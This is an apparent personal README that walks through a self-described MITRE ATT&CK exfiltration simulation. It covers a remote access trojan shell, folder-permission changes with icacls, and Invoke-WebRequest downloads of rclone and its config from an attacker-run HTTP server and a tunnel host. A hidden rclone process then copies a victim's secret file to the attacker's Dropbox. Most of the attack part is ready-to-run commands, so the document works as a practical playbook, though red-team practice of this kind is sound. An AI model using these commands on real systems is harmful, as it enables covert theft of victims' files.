 ## MITRE ATT\&CK Exfiltration Simulation via dropbox using **rclone**

I followed **https://www.dropbox.com/developers/apps/info/s3jnq4f8fcstvgw** this link, to get the client id and client secret, then I use it later while setting rclone. Here are the following steps to do exfiltration:

### 0. Give Write Access To a Folder
To give a folder **write access**, especially from a script or RAT shell (with limited UI or feedback), you can use PowerShell or `icacls` commands to set permissions. Here's how:

---

## Method: Use `icacls` to Grant Write Access

```cmd
icacls "C:\Your\Target\Folder" /grant Everyone:(OI)(CI)M
```

### Breakdown:

* `Everyone`: Grants access to all users (you can replace with a specific user if needed).
* `(OI)(CI)`: Applies to **files and subfolders** (Object Inherit + Container Inherit).
* `M`: Stands for **Modify**, which includes read/write permissions.

---

## Example:

To make `C:\PublicRAT` writeable:

```cmd
mkdir C:\PublicRAT
icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
```

Now your RAT shell should be able to **write files there**, e.g.:

```cmd
cmd.exe /c echo Hello > C:\PublicRAT\test.txt
```

### 1. **Prepare on Attacker Machine**

* Download `rclone` from: [https://rclone.org/downloads/](https://rclone.org/downloads/)
* Extract it somewhere like:
  `E:\Hacking\rclone-v1.69.2-windows-amd64\`

---

### 2. **Configure `rclone` with dropbox**

In your **attacker machine's terminal**, run:

```bash
rclone config
```

Follow these steps:

1. Type `n` for a new remote.
2. Name it something like: `dropboxStorage`
3. Choose storage type: `drive` (13 for dropbox)
4. Follow the prompts to authenticate via browser.
5. At the end, type `y` to confirm, then `q` to quit.
6. Then in this linke, `https://www.dropbox.com/developers/apps/info/s3jnq4f8fcstvgw#permissions`, give all `write & read` access in `Files and folders` and `Collaboration`.

This process generates the config file. Then try this command to find the actual location:

```bash
rclone config file
```

It will output something like:

```
Configuration file is stored at: C:\Users\Niloy\.config\rclone\rclone.conf
```

That’s the file you need to send to the victim. Once you find it, copy it to the folder where `rclone.exe` is located (on attacker machine) so you can send both files to the victim:


Then transfer both:

* `rclone.exe`
* `rclone.conf`

to the victim’s machine via the RAT.

---

### 3. **Host Files for Victim to Pull**

To simulate real-world behavior and avoid direct upload via RAT:

1. Copy `rclone.exe` and `rclone.conf` to a web-accessible server or local HTTP server:

   * E.g., start a server:

     ```bash
     python -m http.server 8000
     ```

     In directory where `rclone.exe` and `rclone.conf` are located.

---

### 4. **Use RAT (PowerShell Shell) to Download Files on Victim**

Go through **File Manager** to the expected folder and upload the **reclone.conf**, as it is small in size that's why we can upload it directly via RAT. But as the **rclone.exe** is big in size, thats why we need to send it via power shall. From the attacker, send PowerShell commands via RAT. You can do the same for the **rclone.conf** also.

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.conf" -OutFile "C:\PublicRAT\rclone.conf"
```

```powershell
Invoke-WebRequest -Uri "http://192.168.113.226:8000/rclone.exe" -OutFile "C:\NewRAT\rclone.exe"
```

Now `rclone.exe` and its config are on the **victim system**.

---

### 5. **Exfiltrate File Using `rclone` Remotely**

Send via RAT: 

```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" dropboxStorage:/ --config "C:\PublicRAT\rclone.conf"'
```

Notes:

* `dropboxStorage` is the name you used during `rclone config`.
* You can exfiltrate any file the user has permission to read.

---

### 6. **Check dropbox**

Your file (e.g., `secret.txt`) should now appear in the root of your dropbox `https://www.dropbox.com/home?_ad=20016251&_camp=LCEPA&_tk=notification&checklist=open`. You need to wait for some minutes (1-2) to get the file there.

---

### MITRE ATT\&CK Coverage:

![alt text](flow.png)

| Tactic              | Technique                                 | Description                         |
| ------------------- | ----------------------------------------- | ----------------------------------- |
| Execution           | T1059 - Command and Scripting Interpreter | PowerShell shell via RAT            |
| Ingress Tool        | T1105 - Ingress Tool Transfer             | Download `rclone.exe` and `.conf`   |
| Exfiltration        | T1567.002 - Exfil to Cloud Storage        | Send files to dropbox          |
| Persistence/Stealth | T1027 - Obfuscated Files or Info          | Using trusted tools like PowerShell |


### Full process using port forwarding

* Start the playit.gg both from homescreen and the playit-0.9.3-signed from **E:\Hacking\Tools\PlayIt.gg**
* E.g., start the server from **E:\Hacking\rclone-v1.69.2-windows-amd64\rclone-payload** or **E:\Hacking\rclone-v1.69.2-windows-amd64\dropbox-payload** or directly **E:\Hacking\rclone-v1.69.2-windows-amd64**:
   ```bash
   python -m http.server 1335
   ```
* Then do the following:
  ```powershall
  mkdir C:\PublicRAT
  icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
  ```
  
  Now your RAT shell should be able to **write files there**, e.g.:
  
  ```cmd
  cmd.exe /c echo Hello > C:\PublicRAT\test.txt
  ```
* If the **test.txt** successfully writes in that location, then first direct upload the latest `rclone.conf` in `C:\PublicRAT\`. Then do the following in RAT shell:

  ```powershell
  Invoke-WebRequest -Uri "http://silver-generate.gl.at.ply.gg:22366/rclone.exe" -OutFile "C:\PublicRAT\rclone.exe"
  ```
* Then transfer data using the following convention:
  ```powershell
  Start-Process -WindowStyle Hidden -FilePath "C:\PublicRAT\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\newSecret.txt" dropboxStorage:/ --config "C:\PublicRAT\rclone.conf"'
  ```
* Check your dropbox (in bsse mail, pass is as like your cefalo PC's password) and click recent, you will get the uploaded file.
